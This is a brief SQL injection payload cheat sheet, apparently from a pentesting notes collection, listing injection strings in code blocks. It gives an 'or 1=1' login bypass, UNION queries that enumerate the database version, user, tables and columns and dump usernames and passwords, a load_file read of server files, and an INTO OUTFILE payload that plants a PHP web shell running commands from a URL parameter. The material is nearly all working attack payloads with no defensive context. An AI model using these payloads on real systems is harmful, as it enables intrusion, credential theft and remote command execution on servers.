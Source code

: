 ### SQL Injection

```
' or 1=1 LIMIT 1;#
```
```
<Username>' or 1=1 LIMIT 1;#
```
```
id=1 order by 1
```
```
UNION all select 1,2,3
```
```
UNION all select 1,2, @@version
```
```
UNION all select 1,2, user()
```
```
UNION all select 1,2, table_name from information_schema.tables
```
```
UNION all select 1,2, column_name from information_schema.columns where table_name='users'
```
```
UNION all select 1, username, password from users
```
```
UNION all select 1,2, load_file('path/to/file')
```
```
union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'path/to/backdoor.php'
----
(ip/backdoor.php?cmd=ipconfig)
```


